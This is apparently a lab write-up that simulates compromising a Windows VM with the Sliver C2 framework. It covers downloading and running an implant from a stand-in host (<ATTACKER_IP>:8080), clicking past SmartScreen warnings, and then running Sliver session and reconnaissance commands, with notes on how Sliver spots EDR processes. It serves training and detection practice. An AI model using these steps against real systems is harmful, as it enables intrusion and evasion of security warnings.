


## Purpose
Simulate endpoint compromise by downloading and executing the implant on the Windows target, establishing an interactive C2 session, and running basic host and environment reconnaissance.

## 1. Payload Delivery and Execution

1. On the Windows victim VM, open the web browser.
2. Navigate to the web-staged payload address: `<ATTACKER_IP>:8080`.
3. Browser SmartScreen / Download Protection flags the binary:
   - Select download details -> click the down-arrow next to Delete -> click **Keep** -> **Keep anyway**.
4. Double-click the downloaded executable in `C:\Users\Administrator\Downloads` to run the implant.

<!-- Screenshot Placeholder -->
**Screenshot:** 
> **Timestamp:** <a href="https://www.youtube.com/watch?v=du6_Dk7-a-k&t11m19s"> </a>

> **Caption:** Sliver compiling the custom binary implant (URBAN_UPPER.exe).


## 2. Session Interaction
Switch back to the Linux Sliver operator terminal. An interactive session registers:

```text
sliver > sessions
```
**Screenshot:** 
> **Timestamp:** <a href="https://www.youtube.com/watch?v=du6_Dk7-a-k&t13m25s"> </a>

> **Caption:** Viewing active C2 sessions and selecting the active target session.

```text
[session] sliver > sessions
[session] sliver > use <SESSION_ID>
[session] sliver > info
[session] sliver > whoami
[session] sliver > netstat
[session] sliver > ps -T
```
### Observation: Defensive Tool Highlighting
When running ps -T or process listings, Sliver inspects running tasks:

Green highlight: Highlights its own active implant process.

Red highlight: Automatically identifies and highlights defensive processes (such as security agents, EDR processes, and monitoring tools like LimaCharlie or Windows Defender), giving the adversary immediate awareness of security monitoring on the host.


